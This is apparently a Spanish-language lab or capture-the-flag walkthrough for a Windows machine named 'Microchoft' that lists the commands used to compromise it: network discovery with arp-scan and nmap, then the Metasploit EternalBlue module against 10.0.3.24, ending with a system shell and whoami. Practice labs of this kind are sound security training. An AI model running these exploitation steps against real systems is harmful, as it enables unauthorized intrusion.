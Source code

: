 # Microchoft

[https://thehackerslabs.com/microchoft/](https://thehackerslabs.com/microchoft/)

![image.png](./imagenes/image%2017.png)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2018.png)

```bash
ping -c 1 10.0.3.24
```

![image.png](./imagenes/image%2019.png)

Es una maquian Windows

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.24
```

![image.png](./imagenes/image%2020.png)

- Lanzamos el metasploit
    
    ![image.png](./imagenes/image%2021.png)
    
    `search eternalblue`
    
    ![image.png](./imagenes/image%2022.png)
    
    `use 0`
    
    ![image.png](./imagenes/image%2023.png)
    
    `show options`
    
    `set RHOSTS 10.0.3.24`
    
    ![image.png](./imagenes/image%2024.png)
    
    `run`
    
    ![image.png](./imagenes/image%2025.png)
    
    `shell`
    
    `whoami`
    
    ![image.png](./imagenes/image%2026.png)
  